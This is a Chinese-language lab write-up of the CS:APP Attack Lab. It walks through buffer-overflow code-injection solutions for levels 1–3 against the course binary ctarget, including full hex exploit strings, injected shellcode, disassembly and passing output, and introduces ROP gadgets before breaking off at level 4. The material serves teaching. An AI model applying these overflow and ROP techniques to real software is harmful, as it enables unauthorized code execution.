









# Attack Lab

## 一、实验概述

### 1.1 **实验目的与意义**
本实验旨在通过亲手实施五种针对存在安全漏洞程序的攻击，深入理解缓冲区溢出这一关键安全威胁。完成本实验后，您将获得以下核心能力：
*   **掌握攻击原理**：理解攻击者如何利用程序未妥善防护的缓冲区溢出漏洞。
*   **提升安全编码能力**：学习如何编写更安全的程序，并理解编译器和操作系统为降低此类漏洞风险而提供的机制（如栈保护）。
*   **深化系统理解**：加深对x86-64架构下栈结构、参数传递机制以及指令编码方式的理解。
*   **熟练调试工具**：提升使用GDB（调试器）和OBJDUMP（反汇编工具）等工具进行低级分析的技能。

> **重要提示**：本实验的目的是为了帮助您理解程序运行时的机制和安全弱点，以便在编写系统代码时能主动避免。**严禁**将所学技术用于任何未经授权的系统入侵。

### 1.2 实验准备与文件说明
**个人项目**：每位学生将获得一套专属的、由服务器动态生成的攻击目标程序。
**获取文件**：访问 `http://$Attacklab::SERVER_NAME:15513/` 下载名为 `targetk.tar` 的压缩包（`k` 为您的唯一编号）。**务必在Linux系统上解压**，以避免权限位被错误修改。
**核心文件**：
*   `ctarget`：易受**代码注入（Code Injection, CI）** 攻击的可执行程序。
*   `rtarget`：易受**面向返回编程（Return-Oriented Programming, ROP）** 攻击的可执行程序。
*   `cookie.txt`：一个8位十六进制数，作为您在攻击中使用的唯一标识符。
*   `farm.c`：`rtarget` 程序中用于ROP攻击的“工具箱”（gadget farm）源代码。
*   `hex2raw`：一个关键工具，用于将十六进制格式的攻击字符串转换为原始字节流，以便输入给目标程序。

### 1.3 核心概念与攻击基础

**漏洞核心**：两个程序都使用了不安全的`Gets()`函数（类似`gets()`），该函数会无限制地读取用户输入并写入固定大小的缓冲区`buf`，极易导致缓冲区溢出。

**攻击目标**：精心构造“利用字符串”（exploit string），让程序在`getbuf()`函数返回时，跳转到`touch1`, `touch2`, 或 `touch3` 函数，从而触发验证成功。

**关键限制**：
*   利用字符串中不能包含字节值`0x0a`（换行符），因为`Gets()`会将其视为输入结束。
*   `ret`指令的跳转目标必须是`touch1/2/3`函数、您注入的代码或`gadget farm`中的工具。
*   ROP攻击只能使用`start_farm`到`end_farm`之间定义的代码片段。


### 1.6 实用工具与技巧

**反编译与分析环境准备**：
* **作用**：快速定位程序逻辑与关键点检查
* **反编译**：使用 `objdump` 反编译整个可执行文件，方便整体结构分析：
  ```bash
    objdump -d bomb > bomb.asm
  ```
* **开启汇编与寄存器布局**：方便观察指令流与寄存器变化
  ```bash
    gdb xxx
    run
    layout asm // 显示当前执行位置附近的汇编指令
    layout regs // 显示寄存器实时变化
  ``` 

**`hex2raw`**：
*   **作用**：将十六进制字符串（如 `48 89 c7 00 00 00 00 00 00 00 00 00`）转换为原始字节流。
*   **用法**：
    ```bash
    # 方式1：管道
    cat exploit.txt | ./hex2raw | ./ctarget
    # 方式2：重定向到文件
    ./hex2raw < exploit.txt > exploit-raw.txt
    ./ctarget < exploit-raw.txt
    # 方式3：使用-i参数
    ./ctarget -i exploit-raw.txt
    ```
*   **支持C风格注释**：可在十六进制串中添加 `/* ... */` 提高可读性。

**生成机器码**：
*   **步骤**：
    1.  编写汇编代码文件（`.s`），如 `example.s`。
    2.  使用 `gcc -c example.s` 编译成目标文件。
    3.  使用 `objdump -d example.o` 反汇编，提取机器码字节序列。
*   **示例**：
    ```assembly
    # example.s
    pushq $0xabcdef
    addq $17,%rax
    movl %eax,%edx
    ```
    反汇编后得到机器码：`68 ef cd ab 00 48 83 c0 11 89 c2`

---

**总结**：本实验是一个经典的、深入的系统安全实践。它通过五个递进的挑战，让您从理论走向实践，深刻理解了缓冲区溢出的原理、现代系统的防御机制（如NX）以及绕过这些防御的高级技术（ROP）。主要考察汇编、操作系统和安全知识，更是培养您成为安全工程师的宝贵经历。


## 二、代码注入攻击 (CI) - 针对 `ctarget`

在第一部分中，我们要攻击的是ctarget，其栈是可执行的。利用**缓冲区溢出**，就是程序的栈中分配某个字符数组来保存一个字符串，而输入的字符串可以包含一些可执行代码的字节编码或者一个指向攻击代码的指针覆盖返回地址。那么就能直接实现直接攻击或者在执行ret指令后跳转到攻击代码

### 2.1 Level 1：重定向执行（10分）

*   **目标**：让程序从`getbuf()`返回时直接跳转到`touch1`函数。
*   **方法**：无需注入新代码。只需在利用字符串中，覆盖`getbuf()`函数栈帧的返回地址，使其指向`touch1`函数的起始地址。
*   **关键点**：注意小端序（`Little-endian`）的字节顺序。

ctarget 调用链：`main() -> test() -> getbuf() -> Gets()`，字符串通过`Gets()` 读入

#### 2.1.1 分析

实验提供的pdf文件中提供了`test`函数和`touch1`的的C语言代码：

- 其中 `test` 函数调用了`getbuf`函数
- 题目要求通过代码注入的方式使`getbuf`执行结束后不返回到`test`函数中，而是返回到`touch1`函数。

```c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}

void touch1()
{
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

利用`objdump -d ctarget >> readctarget`将`ctarget`文件输出为汇编文件

```s
0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp    # 为当前函数分配 8 字节的栈空间，x86-64 架构中栈是向下增长的，因此使用sub指令
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax    # 返回值寄存器清零
  401971:	e8 32 fe ff ff       	callq  4017a8 <getbuf> # 调用 getbuf 函数
  401976:	89 c2                	mov    %eax,%edx   # 第三个参数寄存器：getbuf的返回值
  401978:	be 88 31 40 00       	mov    $0x403188,%esi   # 第二个参数寄存器：格式字符串地址
  40197d:	bf 01 00 00 00       	mov    $0x1,%edi    # 第一个参数寄存器：文件描述符（stdout=1）
  401982:	b8 00 00 00 00       	mov    $0x0,%eax    # 第二次清零：为printf准备，表示没有向量寄存器参数
  401987:	e8 64 f4 ff ff       	callq  400df0 <__printf_chk@plt> # 调用printf
  40198c:	48 83 c4 08          	add    $0x8,%rsp # 恢复栈指针
  401990:	c3                   	retq   # 函数返回
  401991:	90                   	nop    # 空操作（对齐填充）
  401992:	90                   	nop
  401993:	90                   	nop
  401994:	90                   	nop
  401995:	90                   	nop
  401996:	90                   	nop
  401997:	90                   	nop
  401998:	90                   	nop
  401999:	90                   	nop
  40199a:	90                   	nop
  40199b:	90                   	nop
  40199c:	90                   	nop
  40199d:	90                   	nop
  40199e:	90                   	nop
  40199f:	90                   	nop

00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp  # 分配40字节栈空间（用于缓冲区）
  4017ac:	48 89 e7             	mov    %rsp,%rdi   # 将栈顶地址作为参数传递给Gets函数（缓冲区起始地址）
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets> # 调用Gets函数读取输入（存在缓冲区溢出风险）
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax   # 设置函数返回值为1
  4017b9:	48 83 c4 28          	add    $0x28,%rsp  # 释放40字节栈空间
  4017bd:	c3                   	retq   # 函数返回
  4017be:	90                   	nop    # 空操作（对齐填充）
  4017bf:	90                   	nop

00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
```

通过分析反汇编后的代码可以发现：
- `getbuf`函数分配了 40 个字节的栈帧，随后将栈顶位置作为参数传递给`Gets`函数，读入字符串；
- 从标准输入读取字符，将字符写入`rdi`指向的内存位置（即缓冲区）,**从低地址向高地址**填充缓冲区
- **攻击原理**：当输入超过40字节时，第41-48字节会覆盖**返回地址**（当`test`函数调用`getbuf`时，`callq`指令会将下一条指令的地址`0x401976`压栈，即从`getbuf` 函数调用结束后下一条将要执行的指令），`retq`指令从栈顶弹出返回地址到`rip`。此时栈帧情况如下所示：




#### 2.1.2 答案

因此只需要输入 48 个字符，前40个字符将 getbuf 的栈空间填满。最后输入`touch1` 函数的地址，即`0x4017c0`。这样在`getbuf`执行`retq`指令之后，程序就会跳转到`touch1`函数。

步骤如下：
- 创建`txt`文档存储输入，并按照`HEX2RAW`工具说明，在输入时每个字节用空格或回车间隔开。
- 输入内容：注意**x86采用小端存储（低地址存低字节，高地址存高字节），要注意输入字节的顺序**
    ```txt
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    c0 17 40 00 00 00 00 00
    ```
- 执行命令`./hex2raw < solution1.txt | ./ctarget -q`
  - `./hex2raw < solution1.txt`是利用`hex2raw`工具将输入看作字节级的十六进制表示进行转化，用来生成攻击字符串
  - `|`表示管道，将转化后的输入文件作为`ctarget`的输入参数
  - 由于执行程序会默认连接 `CMU` 的服务器，`-q`表示取消这一连接

- SUCCESS
  ```sh
  Cookie: 0x59b997fa
    Type string:Touch1!: You called touch1()
    Valid solution for level 1 with target ctarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00 
  ```

### 2.2 Level 2 ：注入小段代码 (25分)

*   **目标**：让 `CTARGET` 执行 `touch2` 的代码，并且传入正确的`cookie`值作为参数。而不是从 `getbuf` 返回到 `test`。
    ```c
        void touch2(unsigned val){
            vlevel = 2; 
            if (val == cookie) {
                prinft("Touch2!:You called touch2(0x%.8x)\n", val);
                validate(2);
            } else {
                printf("Misfire: You called touch2(0x%.8x)\n", val);
                fail(2);
            }
            exit(0);
        }
    ```
*   **方法**：
    1.  在利用字符串中注入一小段机器码。
    2.  这段代码的功能是：将您的`cookie`值加载到寄存器`%rdi`（x86-64中第一个函数参数通过此寄存器传递）。
    3.  执行`ret`指令，跳转到`touch2`函数的入口。
*   **提示**：
    *   需要把“注入的代码的地址”的字节表示放到某个合适的位置，这样当`getbuf` 函数结尾的 `ret` 指令执行时，就会跳到注入代码执行。
    *   函数的第一个参数通过 `寄存器 %rdi` 传递。注入代码需要：将 cookie 写入 `%rdi`，然后用`ret 指令` 跳转到`touch2`
    *   注入代码中禁用使用 `jmp` 或 `call` 指令


#### 2.2.1 分析

本题在`getbuf`调用结束后`ret`弹出的地址不是`0x4017c0`,而应该是执行`touch2`函数。

通过**缓冲区溢出**将返回地址替换为`touch2`函数的地址不可行：
- touch2 的参数要通过 %rdi 传入
- %rdi 中必须是 cookie，如果参数不正确，会走到 Misfire

因此，需要**利用`缓冲区溢出`将返回地址替换为注入代码的地址**。该代码具备如下功能：
- 将 cookie 写入函数第一个参数寄存器
- 调整栈（push）使得 `ret` 跳入 `touch2`，这样在该注入代码执行结束后，`retq`拿到的就是`touch2`的地址，从而实现调用`touch2`函数。

> 说明：在 CPU 中有一个“程序寄存器”（PC），在 x86-64 中称为 %rip。它保存 下一条将执行的指令 的地址。ret 本质操作为`pop %rip`

**攻击原理**

- **注入代码位置**：通过`getbuf`函数调用`Gets`函数，将注入代码放入`getbuf`内部的`buffer`中
- **控制流劫持**：将返回地址修改为`buffer`的起始地址
- **执行流程：**
  - `getbuf`执行`ret`指令后，从栈中弹出注入代码的起始地址
  - 程序开始执行我们编写的注入代码
  - 注入代码再次执行`ret`时，从栈中弹出我们压入的`touch2`函数地址


#### 2.2.2 解决方案

**查看 `getbuf` 内部`buffer`的起始地址**
- 利用`gdb`在`getbuf`分配栈帧后打断点，查看栈顶指针的位置

```sh
  gdb ./ctarget
  break getbuf
  run
  info reg rsp  # `rsp = 0x5561dca0`
```
- 执行完 `sub $0x28, %rsp` 后的 `%rsp` 就是 `buffer` 起始地址`0x5561dc78`

**注入代码**

```s
movq $0x59b997fa %rdi
push $0x4017ec
ret
```

**栈帧讲解**


**获取注入代码的字节级表示**
- 将汇编代码保存到`.s`文件中，利用指令

    ```sh
    gcc -c injectioncode.s
    objdump -d injectioncode.o > injectioncode.d
    ```

- 得到字节级表示为
    ```s
    0000000000000000 <.text>:
    0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
    7:   68 ec 17 40 00          pushq  $0x4017ec
    c:   c3                      retq
    ```

**组装输入**

```txt
48 c7 c7 fa 97 b9 59 68 
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00                   
```

**执行命令`./hex2raw < solution2.txt | ./ctarget -q`**

```sh
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 
```

### 2.3 Level 3：注入字符串参数（25分）

*   **目标**：让程序跳转到`touch3`函数，并传入一个指向`cookie`十六进制字符串（如`"1a7dd803"`）的指针，使`hexmatch`函数验证成功。
    ```c
        /* Compare string to hex representation of unsigned value */
    int hexmatch(unsigned val, char *sval)
    {
        char cbuf[110];
        /* Make position of check string unpredictable */
        char *s = cbuf + random() % 100;
        sprintf(s, "%.8x", val);
        return strncmp(sval, s, 9) == 0;
    }

    void touch3(char *sval)
    {
        vlevel = 3; /* Part of validation protocol */
        if (hexmatch(cookie, sval)) {
            printf("Touch3!: You called touch3(\"%s\")\n", sval);
            validate(3);
        } else {
            printf("Misfire: You called touch3(\"%s\")\n", sval);
            fail(3);
        }
        exit(0);
    }
    ```
*   **方法**：
    1.  在利用字符串中注入一段机器码。
    2.  这段代码的功能是：将一个指向`cookie`字符串的指针加载到`%rdi`。
    3.  执行`ret`指令，跳转到`touch3`函数。
*   **注意事项**
    *   在攻击字符串中包含cookie的字符串表示。该字符串应由八个十六进制数字组成（按从最高有效位到最低有效位的顺序），不带前导"0x"。
    *   在C语言中，字符串表示为一系列字节，后跟一个值为0的字节。在任何Linux机器上输入"man ascii"可以查看所需字符的字节表示。
    *   注入的代码应该将寄存器%rdi设置为该字符串的地址。
    *   `touch3`内部会调用`hexmatch`和`strncmp`，这些函数会在栈上压入数据，覆盖掉`getbuf`的缓冲区。因此，您必须将`cookie`字符串放置在不会被后续函数覆盖的安全位置（通常是在`buf`之前）。

#### 2.3.1 分析

本题与 `Level 2（touch2）`相似：都需要通过缓冲区溢出，让 `getbuf` 执行结束后的 `ret` 跳转到你注入的代码。但 `Level 3` 与 `Level 2 `有两个关键区别，使其更具挑战性：

- `touch3`函数参数不是整数，而是字符串指针
- 当 `getbuf` 返回后，其栈帧（包括 buffer）已经不再为活动帧；如果把 `cookie` 字符串放在 `getbuf` 的缓冲区上，随后 `touch3 → hexmatch → sprintf` 在其各自栈帧中分配并写入大量数据时，很可能会覆写（或与）原来存放在 `getbuf` 区域的 `cookie`，从而导致比较失败。**因此不能将`cookie`字符串放在`getbuf`的缓冲区上。**
    ```c
    char cbuf[110];
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);   // 在随机偏移写入 cookie 的 hex 字符串
    ```

**关键思路** 

把 `cookie` 字符串放在安全位置，在调用`touch3`时，栈结构如下：

```bash
| test 栈帧（安全，不再增长） |  ← 高地址（不会被覆盖）
| getbuf 栈帧（已释放，有风险）|
| touch3 栈帧（新）            |
| hexmatch 栈帧（最危险）       |  ← 这里 sprintf 会写大量数据
```

因此我们需要将`cookie`的字符串数据存在`test`的栈上。

**攻击思路**

- 利用栈溢出将 `test` 函数的返回地址中修改为**攻击代码**的地址
- 利用栈溢出将 `cookie`写入 `test` 的栈中
- 利用栈溢出注入攻击代码，使得将`cookie`字符串所在地址写入`%rdi`；并将`touch3`的地址压栈，使得攻击代码结束后跳转到`touch3`函数


#### 2.3.2 解决方案

**注入代码**
- 确认`test`栈顶指针的位置`0x5561dca8`，即为存放`cookie`字符串的位置，也是调用`touch3`中应该传递的参数
- 因此注入代码为

```s
.text
.globl main
main:
    movq $0x5561dca8, %rdi
    pushq $0x4018fa
    ret

```

**栈帧结构**




**获取注入代码的字节级表示**
- 将汇编代码保存到`.s`文件中，利用指令

    ```sh
    gcc -c injectcode2.s
    objdump -d injectcode2.o > injectcode2.d
    ```

- 得到字节级表示为
    ```s
    injectcode2.o:     file format elf64-x86-64


    Disassembly of section .text:

    0000000000000000 <main>:
    0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
    7:	68 fa 18 40 00       	pushq  $0x4018fa
    c:	c3                   	retq   
    ```

**组装输入**

```txt
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

**执行命令`./hex2raw < solution2.txt | ./ctarget -q`**

```sh
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 
```

## 三、第二部分：面向返回编程攻击 (ROP) - 针对 `rtarget`

`rtarget`通过两大技术使传统代码注入失效：
1.  **栈地址随机化 (ASLR)**：每次运行时栈的位置不同，无法预知注入代码的地址。
2.  **栈不可执行 (NX/DEP)**：它将存放栈的内存区域标记为不可执行（nonexecutable），因此即使你能让程序计数器（PC）跳转到你注入代码的起始位置，程序也会因段错误（segmentation fault）而崩溃。

**ROP核心思想**：不注入新代码，而是利用程序中已存在的、以`ret`指令结尾的代码片段（称为**Gadget**）。通过精心构造栈，将这些Gadget串联起来，形成一条"指令链"，以完成复杂操作。



上图展示了如何设置栈来依次执行`n`个`gadget`。在该图中，栈中包含一连串 `gadget` 的地址。每个 `gadget` 的最后一条指令都是 `0xc3`（即 ret 的机器码）。当程序从这种初始状态执行 `ret` 指令时，会启动一个 `gadget` 链：每个 `gadget` 末尾的 `ret` 指令会使得程序跳转到下一个 `gadget` 的起始地址，从而依次执行整条链。

**ROP攻击与Gadget Farm**

1. **常规来源：** 编译器生成的函数代码，特别是函数末尾部分。但直接可用的 gadget 数量有限，难以满足复杂攻击需求
2. **关键技术：** 利用 x86-64 字节导向指令集的特性，通过"错位解析"发现隐藏 gadget

**错位解析示例**

1. **源码**
```c
void setval_210(unsigned *p) {
    *p = 3347663060U;
}
```
2. **反汇编结果**

```s
    0000000000400f15 <setval_210>:
    400f15: c7 07 d4 48 89 c7    movl $0xc78948d4,(%rdi)
    400f1b: c3                   retq
```

- 字节序列 `48 89 c7` 编码了指令 `movq %rax, %rdi`
- 从地址 `0x400f18`（函数第4个字节）开始解析，得到有用 `gadget`：

```s
400f18: 48 89 c7    movq %rax, %rdi
400f1b: c3          retq
```

**Gadget farm**

- 定义：rtarget 程序中专门包含多个类似 `setval_210` 函数的区域

- 边界标记：由 `start_farm` 和 `end_farm` 函数界定
- 使用限制：只能从 `gadget farm` 中寻找和构造 `gadget`，不能使用程序其他部分

**攻击策略**
在 `gadget farm` 中寻找有用 `gadget`，构造类似于第2阶段和第3阶段的攻击，利用 `gadget` 链实现预期功能。


### 3.1 Level 4：ROP实现Level 2 (35分)
*   **目标**：使用`gadget farm`中的工具，让程序跳转到`touch2`并传入`cookie`。
